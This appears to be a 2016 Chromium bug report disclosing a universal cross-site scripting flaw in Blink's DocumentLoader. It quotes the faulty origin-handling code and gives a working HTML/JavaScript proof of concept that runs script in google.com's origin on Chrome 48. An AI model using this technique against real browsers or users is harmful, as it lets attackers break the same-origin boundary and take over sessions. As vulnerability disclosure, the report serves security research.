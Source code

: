 # UXSS in DocumentLoader::createWriterFor

#### Reported by <mailto:dcheng@chromium.org>, Feb 2 2016

### Details:

`third_party/WebKit/Source/core/loader/DocumentLoader.cpp:735`:

```cpp
PassRefPtrWillBeRawPtr<DocumentWriter> DocumentLoader::createWriterFor(const Document ownerDocument, const DocumentInit& init,
const AtomicString& mimeType, const AtomicString& encoding, bool dispatch, ParserSynchronizationPolicy parsingPolicy)
{
    LocalFrame* frame = init.frame();

    ASSERT(!frame->document() || !frame->document()->isActive());
    ASSERT(frame->tree().childCount() == 0);

    if (!init.shouldReuseDefaultView())
        frame->setDOMWindow(LocalDOMWindow::create(*frame));

    RefPtrWillBeRawPtr<Document> document = frame->localDOMWindow()->installNewDocument(mimeType, init);
    if (ownerDocument) {
        document->setCookieURL(ownerDocument->cookieURL());
        document->setSecurityOrigin(ownerDocument->securityOrigin());
      }
    }
```

DocumentLoader calls `setSecurityOrigin` instead of `updateSecurityOrigin`, so while the document inherits the correct SecurityOrigin
from the owner, its associated v8 context is left with the old security token which is used for access checks.

### Repro:
```html
<body>
<script>
var frame = document.body.appendChild(document.createElement("iframe"));
frame.src = "https://www.google.com/intl/en/ads/";
frame.onload = function () {
    frame.onload = null;
    frame.contentWindow.frames[0].location = "data:text/html,<script>(" + function () {
        frame = document.documentElement.appendChild(document.createElement("iframe"));
        frame.contentWindow.setTimeout("parent.document.open()", 0);
        setTimeout(function () { location = "javascript:'<script>parent.eval(\"alert(location)\")</scr" + "ipt>'" }, 0);
    } + "())</scr" + "ipt>";
}
</script>
</body>
```
Note the `document.open()` call in the repro is used to set the document URL to "about:blank" which forces the javascript: generated document to inherit the origin from the parent frame's document.


Version: Chrome 48 stable
Link: https://bugs.chromium.org/p/chromium/issues/detail?id=583445
